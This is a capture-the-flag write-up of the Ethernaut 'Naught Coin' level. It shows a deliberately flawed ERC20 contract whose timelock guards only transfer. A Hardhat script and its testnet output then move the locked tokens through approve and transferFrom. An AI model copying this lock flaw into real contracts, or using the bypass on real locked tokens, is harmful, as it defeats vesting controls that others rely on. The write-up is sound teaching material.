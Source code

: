 ```yaml
---
title: Ethernaut #15 Naught Coin
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Naught Coin challenge writeup
---
```


## Naught Coin

### Challenge

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

* The [ERC20](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) Spec
* The [OpenZeppelin](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) codebase


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

### Background

This challenge is very simple if one knows/learns the `erc20` interface. If we look closely there is more than one ways `erc20` tokens can be transfered.

`approve(address spender, uint256 amount)` and `function transferFrom(address from, address to, uint256 amount)` are functions that allow someone to spend tokens without being the owner. Those functions are useful when interacting with some middleman/broker contract. For example a user might want to buy an NFT from a marketplace. The user can allow the marketplace contract to spend funds by calling the `approve` function with the address of the marketplace and the amount the marketplace can spend. Then, when the swap is to happen, the marketplace can `transferFrom` the original address to some address up to the amount that was approved.

### Attack

The contract here only timelocks the `transfer` function, not the `transferFrom` and `approve` functions. This will allow the owner of the tokens to `approve` some address (even its self) to spend the tokens, and then use `transferFrom` to send them to another account.

* use the `approve` function to allow some address (even self) to spend the full amount of tokens
* use the `transferFrom` function to send the funds to some other account


#### nauthg-coin-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    naughtCoinAddress = "0xC316BA23E78dB02313f32C386C3773960d76C9dA";
    contract = await ethers.getContractAt("NaughtCoin", naughtCoinAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)

    // get current balance
    balance = await contract.balanceOf(account.address)
    console.log("Current Balance: " + balance)

    // approve self to spend funds
    tx = await contract.connect(account).approve(account.address, balance)
    receipt = await tx.wait()

    // spend funds using transferFrom
    tx = await contract.connect(account).transferFrom(account.address, accounts[1].address, balance)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance: " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/naught-coin-solve.js --network rinkeby
Level address  : 0xC316BA23E78dB02313f32C386C3773960d76C9dA
Current Balance: 1000000000000000000000000
New Balance    : 0
```

### Success Message

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
